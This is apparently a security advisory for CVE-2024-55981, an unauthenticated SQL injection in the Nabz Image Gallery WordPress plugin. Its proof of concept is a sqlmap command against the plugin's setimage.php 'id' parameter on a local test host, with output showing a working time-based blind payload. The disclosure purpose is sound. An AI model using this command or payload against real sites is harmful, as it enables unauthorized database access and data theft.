 # CVE-2024-55981
Nabz Image Gallery <= v1.00 - Unauthenticated SQL Injection

# Description

The Nabz Image Gallery plugin for WordPress is vulnerable to SQL Injection in versions up to, and including, v1.00 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query.  This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.

## Details

- **Type**: plugin
- **Slug**: nabz-image-gallery
- **Affected Version**: v1.00
- **CVSS Score**: 9.8
- **CVSS Rating**: Critical
- **CVSS Vector**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
- **CVE**: CVE-2024-55981
- **Status**: Closed

POC
---

```
$ python3 sqlmap.py -u 'http://kubernetes.docker.internal:8099/wp-content/plugins/nabz-image-gallery/scripts/setimage.php?id=1' --dbms='MySQL ' -p id
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.8.12.2#dev}
|_ -| . ["]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:38:48 /2025-01-03/

[12:38:48] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 6801 FROM (SELECT(SLEEP(5)))ggHa)
---
[12:38:48] [INFO] testing MySQL
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
[12:38:58] [INFO] confirming MySQL
[12:38:58] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[12:39:08] [INFO] adjusting time delay to 1 second due to good response times
[12:39:08] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP 5.5.9, Apache 2.4.7
back-end DBMS: MySQL >= 5.0.0
```
